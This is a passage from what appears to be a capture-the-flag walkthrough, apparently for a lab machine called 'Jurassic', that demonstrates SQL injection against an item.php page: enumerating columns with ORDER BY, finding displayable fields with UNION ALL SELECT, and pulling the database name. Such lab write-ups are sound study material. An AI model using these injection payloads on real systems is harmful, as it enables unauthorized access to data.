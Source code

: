 Ok, so we can't use an obvious one like the comment character. That is in the list of blocked characters we found before, but at least we know we are looking at SQL injection as our starting point.

Using the order by clause we can find out how many columns the table has by adding one at a time until we get an error. When we get to 6 we see this:

```text
http://10.10.9.16/item.php?id=5 order by 1,2,3,4,5,6
```

![jurassic-orderby](/assets/images/2021-01-27-22-24-25.png)

Now doing a union statement we can see which fields we will be able to use to view information from the database:

```text
http://10.10.9.16/item.php?id=5 union all select 1,2,3,4,5
```

![jurassic-select](/assets/images/2021-01-27-22-28-14.png)

Columns 2, 4 and 5 look to be useable as they are displaying on the page with no additional characters added. Let's see what the database is called:

```text
http://10.10.9.16/item.php?id=5 union all select 1,database(),3,4,5
```
